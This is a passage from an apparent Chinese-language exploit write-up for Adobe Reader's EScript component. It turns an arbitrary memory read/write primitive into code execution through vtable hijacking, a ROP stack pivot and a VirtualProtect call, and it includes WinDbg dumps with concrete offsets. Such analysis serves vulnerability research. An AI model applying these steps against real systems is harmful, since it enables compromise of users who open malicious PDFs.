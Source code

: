 至此就获得了长度为0xffffff81的任意地址读写原语，不过该ArrayBuffer的起始地址为0x20010058，如果需要读写起始地址之前的数据，则必须将目的地址 + 0xffffffff + 1，得到的值再通过读写原语进行读写就可以成功写入了。

## 代码执行

有了任意内存读写原语后，接下来就可以获取函数地址构造ROP链了。构造好后需要劫持对象的虚表实现，步骤如下：

1. 获取任意内存读写原语的虚表地址
2. 修改虚表地址为ROP指令，进行栈置换
3. 修改shellcode内存属性为可读可写可执行
4. 跳转到shellcode执行，完成利用

读写原语的虚表地址可以通过对象头的信息获取：

```
0:014> dd 20010048 L10
20010048  00000000 ffffff81 076910e0 00000000
20010058  41414141 ffffff81 00000000 00000000
20010068  00000000 00000000 00000000 00000000
20010078  00000000 00000000 00000000 00000000
0:014> dps 076910e0 L4
076910e0  07627448
076910e4  07625ac0
076910e8  00000000
076910ec  674d9540 EScript!double_conversion::DoubleToStringConverter::kBase10MaximalLength+0xae630
0:014> dps 07627448 L4
07627448  0763f628
0762744c  00000004
07627450  3affffff
07627454  00000040
0:014> dps 0763f628 L4
0763f628  674d45e8 EScript!double_conversion::DoubleToStringConverter::kBase10MaximalLength+0xa96d8
0763f62c  07628090
0763f630  00000000
0763f634  06893c18
0:014> dps 674d45e8 L8	//读写原语虚表
674d45e8  67429e18 EScript!double_conversion::DoubleToStringConverter::ToPrecision+0x3a0a8
674d45ec  9c000521
674d45f0  6727ad70 EScript!mozilla::HashBytes+0x9020
674d45f4  67363bb0 EScript!double_conversion::DoubleToStringConverter::CreateDecimalRepresentation+0x9b870
674d45f8  6727ad70 EScript!mozilla::HashBytes+0x9020	//只需要修改该处的地址为ROP指令地址，即可实现虚表劫持
674d45fc  6727ad70 EScript!mozilla::HashBytes+0x9020
674d4600  6727ad70 EScript!mozilla::HashBytes+0x9020
674d4604  6727ad70 EScript!mozilla::HashBytes+0x9020
```

ROP指令则可以选择EScript+0x10539d处的指令，将栈地址迁移到0x5d000001。只需要在0x5d000001处填写好VirtualProtect的函数地址和对应的参数即可修改shellcode的内存属性为可执行，并跳转到shellcode执行：

```
0:013> g
Breakpoint 0 hit
eax=06d54ea0 ebx=00000000 ecx=6712539d edx=6712539d esi=0034c4c0 edi=06dfe0e8
eip=6712539d esp=0034c3f8 ebp=0034c488 iopl=0         nv up ei pl nz ac pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000216
EScript!double_conversion::DoubleToStringConverter::CreateDecimalRepresentation+0x9d05d:
6712539d bc0100005d      mov     esp,5D000001h
0:000> p
eax=06d54ea0 ebx=00000000 ecx=6712539d edx=6712539d esi=0034c4c0 edi=06dfe0e8
eip=671253a2 esp=5d000001 ebp=0034c488 iopl=0         nv up ei pl nz ac pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000216
EScript!double_conversion::DoubleToStringConverter::CreateDecimalRepresentation+0x9d062:
671253a2 c3              ret
0:000> dps esp L6
5d000001  75bd435f kernel32!VirtualProtect
```